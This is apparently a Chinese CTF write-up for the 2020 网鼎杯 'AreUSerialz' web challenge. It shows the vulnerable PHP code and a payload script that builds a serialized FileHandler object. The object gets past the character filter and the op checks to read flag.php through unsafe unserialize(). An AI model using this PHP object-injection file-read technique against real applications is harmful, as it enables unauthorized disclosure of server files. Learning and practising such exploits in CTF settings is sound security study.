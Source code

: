 ```yaml
---
title: 网鼎杯 2020 青龙组 AreUSerialz 1
date: 2022-07-14 14:43:47
permalink: /pages/d08aeb/
categories:
  - 网络安全
  - web安全
  - ctf学习
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# 网鼎杯 2020 青龙组 AreUSerialz 1

### 题目详情

![image-20220714141249873](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/202207141412245.png)

> 打开即可看到代码

```php
<?php
class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() //如果op为1则调用write方法，2则调用read，其他则输出bad hacker
    {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() 
    {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);//把设置好的这个filename整个文件读入一个字符串中
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) //这里规定了传入的字符串值要在[32-125]之间
{
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) 
{

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

### 题解

* 根据分析上述代码得知，这个题中 先从对序列化的字符串的检验，因为字符ascii范围是32-125 是数字字符的范围，而protected，序列化结果会在变量名前加上\x00*\x00，无法通过这个检验，所以在进行反序列化的时候需改为public来生成。

```php
<?php
class FileHandler {
 
    public  $op = 2;
    public  $filename = "flag.php";
    public  $content = "ak47";        //因为destruct函数会将content改为空，所以content的值随意（但是要满足is_valid()函数的要求）
}
```

* 接着是___destruct魔术方法的调用（对象被销毁时触发)，上面的代码对op进行了判断如果强等于字符2则改为1，经过此判断后，后面又是弱等于，那么我们只需要把op定义成int型的2即可绕过这俩个判断,从而最终读出flag。

### payload

```php
<?php
class FileHandler {
 
    public  $op = 2;
    public  $filename = "flag.php";
    public  $content = "ak47";        //因为destruct函数会将content改为空，所以content的值随意（但是要满足is_valid()函数的要求）
}
 
$a = new FileHandler();
$b = serialize($a);
echo $b;
 
?>
```

![image-20220714144246015](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/202207141442624.png)